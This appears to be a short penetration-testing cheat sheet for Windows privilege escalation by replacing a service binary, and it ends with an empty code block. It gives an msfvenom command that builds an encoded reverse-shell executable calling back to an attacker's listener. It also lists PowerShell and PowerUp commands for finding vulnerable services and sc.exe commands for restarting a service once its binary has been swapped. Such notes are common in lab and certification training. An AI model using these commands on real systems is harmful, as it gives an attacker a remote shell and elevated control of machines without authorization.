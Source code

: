 
MSFVenom payload:
```
msfvenom -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -f exe-service -o winshell.exe LHOST=IP LPORT=PORT
```

Finding a service:
```
// Important: only works in "interactive situations". If it throws an error, it's not interactive. Then, use Winpeas.exe --> "Services Information", always works.
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
// OR
. .\PowerUp.ps1
Get-ModifiableServiceFile                  // might not always work
```

If there is a vulnerable service (overwritable binary), replace the binary.
To start/reboot the service:

```
sc.exe stop ServiceName
sc.exe start ServiceName
```
If this gets denied, check if reboot privileges are enabled:
```

```
